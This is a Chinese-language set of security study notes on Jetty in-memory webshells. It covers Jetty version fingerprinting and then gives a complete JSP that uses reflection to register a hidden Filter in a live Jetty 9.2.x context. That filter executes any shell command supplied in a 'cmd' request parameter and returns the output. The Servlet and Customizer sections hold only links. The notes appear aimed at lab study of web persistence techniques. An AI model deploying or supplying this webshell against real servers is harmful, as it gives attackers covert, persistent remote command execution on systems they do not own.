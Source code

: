 ```yaml
---
date: 2024-09-19
category:
  - 网络安全
  - Web安全
  - Java
tags:
  - 内存马
  - Jetty
---
```


# Jetty内存马

Eclipse Jetty 是一个轻量级、高度可扩展、基于 Java 的 Web 服务器和 Servlet 引擎。Jetty 的目标是以高容量、低延迟的方式支持 Web 协议（HTTP/1、HTTP/2、HTTP/3、WebSocket 等），从而提供最高性能，同时保持易用性和与多年 Servlet 开发的兼容性。

Jetty 是一种现代的完全异步 Web 服务器，作为面向组件的技术有着悠久的历史，可以轻松嵌入到应用程序中，同时仍然为 Web 应用程序部署提供可靠的传统发行版。

---

## 基本信息收集

### 查看版本号

- Web侧的话

  - 响应标头中可能会有 Jetty 版本信息, 例如:

    ![image-20240918162938756](http://cdn.ayusummer233.top/DailyNotes/202409181629820.png)

  - Wappalyzer 应该也是用的上面这种方案获取的版本信息:

    ![image-20240918163003019](http://cdn.ayusummer233.top/DailyNotes/202409181630064.png)

- 主机侧的话

  - 可以在 JavaWeb 项目的 `pom.xml` 中看到 jetty 的版本号

    ![image-20240918162309589](http://cdn.ayusummer233.top/DailyNotes/202409181623686.png)

  - 直接 `find / | grep jetty` 也可能看到相应路径信息中显示的 jetty 版本信息:

    ![image-20240918162417425](http://cdn.ayusummer233.top/DailyNotes/202409181624482.png)

---

## 构造可用的 Servlet

Jetty 9.2.x 提供了更加安全且可维护的方式来处理 `Servlet` 的动态注册

可以通过 `ServletHandler` 和 `ServletHolder` 来动态注册 `Servlet`，并设置 URL 映射。这不再需要反射访问私有字段

> TODO: 搞不出来, 看了下 `web.xml` 里也没有配置 servlet mapping 之类的, 遂放弃

---

## 构造内存马

> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [3gstudent-Blog](https://3gstudent.github.io/)
>
> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)

---

## Filter内存马

> [从0到1学会Jetty内存马注入 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/15141?u_atoken=1f048c5fb527d82d5ec4ba4c07b4c57d&u_asig=0a472f8c17266484778997576e004d)
>
> [memShell/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java at master · feihong-cs/memShell (github.com)](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)
>
> [Java利用技巧——Jetty Filter型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Filter型内存马)
>
> [Jetty 内存马注入分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12182?time__1311=GqGxRDniiQQ0526Dy7D97rTnikxuYoD#toc-3)

环境: vulhub 的 s2-045 Docker, 其中 Jetty 版本为 9.2.11

---

```jsp
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                
                // 打印调试信息
                out.println("webAppContext class: " + webAppContext.getClass().getName() + "<br>");
                out.println("webAppContext superclass: " + webAppContext.getClass().getSuperclass().getName() + "<br>");
                
                try {
                    // 获取 _servletHandler 字段
                    Field fieldServletHandler = webAppContext.getClass().getSuperclass().getSuperclass().getDeclaredField("_servletHandler");
                    fieldServletHandler.setAccessible(true);
                    Object servletHandler = fieldServletHandler.get(webAppContext);
                    Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                    fieldFilters.setAccessible(true);
                    Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                    boolean flag = false;
                    for(Object f:filters){
                        Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                        fieldName.setAccessible(true);
                        String name = (String) fieldName.get(f);
                        if(name.equals(filterName)){
                            flag = true;
                            break;
                        }
                    }
                    if(flag){
                        out.println("[-] Filter " + filterName + " exists.<br>");
                        return;
                    }
                    out.println("[+] Add Filter: " + filterName + "<br>");
                    out.println("[+] urlPattern: " + urlPattern + "<br>");
                    ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                    Class sourceClazz = null;
                    Object holder = null;
                    Field field = null;
                    try{
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                        field = sourceClazz.getDeclaredField("JAVAX_API");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, field.get(null));
                    }catch(ClassNotFoundException e){
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                    }
                    holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                    holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                    servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                    Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                    Object filterMapping = clazz.newInstance();
                    Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                    method.setAccessible(true);
                    method.invoke(filterMapping, holder);
                    filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                    filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
                    servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
                } catch (NoSuchFieldException e) {
                    out.println("Error: " + e.getMessage() + "<br>");
                }
            }     
        }
    }
%>
```

![image-20240920152529930](http://cdn.ayusummer233.top/DailyNotes/202409201525001.png)

![image-20240920145928096](http://cdn.ayusummer233.top/DailyNotes/202409201459280.png)

![image-20240920150008171](http://cdn.ayusummer233.top/DailyNotes/202409201500230.png)

---

## Servlet型内存马

> [Java利用技巧——Jetty Servlet型内存马 (3gstudent.github.io)](https://3gstudent.github.io/Java利用技巧-Jetty-Servlet型内存马)





---

## Customizer型内存马

> [一种在高版本JDK下 的新型嵌入式Jetty Customizer内存马实现 - 白帽酱の博客 (rce.moe)](https://rce.moe/2023/08/19/Jetty-Customize-memory-webshell/)



